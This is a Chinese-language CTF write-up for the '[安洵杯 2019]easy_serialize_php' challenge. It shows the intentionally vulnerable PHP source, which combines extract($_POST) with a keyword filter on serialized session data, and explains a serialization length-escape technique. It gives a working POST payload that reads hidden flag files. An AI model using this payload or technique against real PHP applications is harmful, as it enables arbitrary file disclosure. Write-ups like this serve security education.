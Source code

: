 ## [安洵杯 2019]easy_serialize_php 1

<?php

$function = @$_GET['f'];

function filter($img){
  $filter_arr = array('php','flag','php5','php4','fl1g');
  $filter = '/'.implode('|',$filter_arr).'/i';
  return preg_replace($filter,'',$img);
}


if($_SESSION){
  unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
  echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
  $_SESSION['img'] = base64_encode('guest_img.png');
}else{
  $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
  highlight_file('index.php');
}else if($function == 'phpinfo'){
  eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
  $userinfo = unserialize($serialize_info);
  echo file_get_contents(base64_decode($userinfo['img']));
}

> ?>

index.php的源码：

参数逃逸：

原理:因为序列化吼的字符串是严格的，对应的格式不能错，比如s:4:"name",那s:4就必须有一个字符串长度是4的否则就往后要。

并且unserialize会把多余的字符串当垃圾处理，在花括号内的就是正确的，花括号后面的就都被扔掉。

示例：



```
<?php
#正规序列化的字符串
$a = "a:2:{s:3:\"one\";s:4:\"flag\";s:3:\"two\";s:4:\"test\";}";
var_dump(unserialize($a));
#带有多余的字符的字符串
$a_laji = "a:2:{s:3:\"one\";s:4:\"flag\";s:3:\"two\";s:4:\"test\";};s:3:\"真的垃圾img\";lajilaji";
var_dump(unserialize($a_laji));
```

我们有了这个逃逸概念的话，就大概可以理解了。如果我们把

$_SESSION['img'] = base64_encode('guest_img.png');这段代码的img属性放到花括号外边去，

然后花括号中注好新的img属性，那么他本来要求的img属性就被咱们替换了。

那如何达到这个目的就要通过过滤函数了，因为咱的序列化的是个字符串啊，然后他又把黑名单的东西替换成空。

### 大佬的payload：

post一个数据。

```
_SESSION[phpflag]=;s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

ZDBnM19mMWFnLnBocA==也就是d0g3_f1ag.php的base64加密。

s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}这个肯定就是我们预期的那段序列化字符，

那么 ;s:1:"1"; 这几个字符呢?

如果使用大佬的payload那么可以明白，现在的_SESSION就存在两个键值即phpflag和img对应的键值对。

并且这个字符串得好好读才能不蒙圈。



```
$_SESSION['phpflag']=";s:1:\"1\";s:3:\"img\";s:20:\"ZDBnM19mMWFnLnBocA==\";}";
$_SESSION['img'] = base64_encode('guest_img.png');
var_dump( serialize($_SESSION) );
#"a:2:{s:7:"phpflag";s:48:";s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}"
;s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}"
```

经过filter过滤后phpflag就会被替换成空，

s:7:"phpflag";s:48:" 就变成了 s:7:"";s:48:";即完成了逃逸。

两个键值分别被序列化成了

s:7:"";s:48:";s:1:"1";即键名叫";s:48: 对应的值为一个字符串1。这个键值对只要能瞒天过海就行。

s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";键名img对应的字符串是d0g3_f1ag.php的base64编码。

右花括号后面的;s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}"全被当成孤儿放弃了。

### 注入

[![img](https://img2020.cnblogs.com/blog/1947190/202004/1947190-20200419170914711-964238637.png)](https://img2020.cnblogs.com/blog/1947190/202004/1947190-20200419170914711-964238637.png)

### 发现/d0g3_fllllllag

[![img](https://img2020.cnblogs.com/blog/1947190/202004/1947190-20200419170915020-1040097469.png)](https://img2020.cnblogs.com/blog/1947190/202004/1947190-20200419170915020-1040097469.png)

### 拿flag

/d0g3_fllllllag进行base64加密L2QwZzNfZmxsbGxsbGFn，恰巧也是20位。就替换原来的就好。

[![img](https://img2020.cnblogs.com/blog/1947190/202004/1947190-20200419170915369-1594928959.png)](https://img2020.cnblogs.com/blog/1947190/202004/1947190-20200419170915369-1594928959.png)

